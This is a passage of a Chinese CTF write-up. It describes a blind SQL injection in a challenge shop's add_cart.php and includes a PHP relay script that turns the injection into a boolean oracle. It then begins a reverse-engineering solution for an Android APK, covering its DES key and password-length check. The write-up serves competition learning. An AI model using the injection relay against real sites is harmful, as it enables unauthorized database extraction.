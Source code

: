 **500  AFSRC-Market**

这道题一直没思路.. 凌晨一点多的时候突然放了提示

（让不让人睡觉了啊！摔）

 

 注入在add_cart.php页面，提交id=xxx  cost为0 判断有注入，但是不能直接得到数据。于是中转注入 



```
$opts = array ('http' =&gt; array ('header'=&gt;'Cookie: PHPSESSID=1;'));
$context = stream_context_create($opts);
$html = file_get_contents('http://edb24e7c.seclover.com/add_cart.php?id=0x'.bin2hex($_GET[x]), false, $context);
$html = file_get_contents('http://edb24e7c.seclover.com/userinfo.php', false, $context);
preg_match('/cost: (.*?)&lt;/p&gt;/is',$html,$res);
echo $res[1]==0 ? 0 : 1;
```



 

注出来一个提示页面 

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01dbe607d0452b0aac.png)

根据提示注自己的token 然后爆破salt 按步骤走最终得到Flag

 

**Reverse**

**100  Re1**

这个题一开始想难了。Apk拖入jeb，主类是Seclreg，初始化函数如下，主要是加了两个监听

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01b0c5f5820c77a721.png)

重点看sign_btn的监听函数，如下这一行做了一个des加密，加密数据为secl-007，注意c后面是l不是1.；密钥是A7B7C7D7E7F70717进行了一些变换，加密结果暂时不管。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t011aa73ba31329fb9b.png)

重点的判断语句在下图的这行，用户名需要是secl-007，密码和上述加密结果传入lib进行进一步判断。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t012ceeb06e619b12a5.png)

Ida打开libplokm.so，定位到getp函数，本函数第一个参数是加密后的结果，第二个参数是输入的密码。大概浏览了一眼，函数没有对密码做任何修改，定位到最后的比较语句，如下图，发现密码需要有39位。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01e3543cbf84159ca2.png)
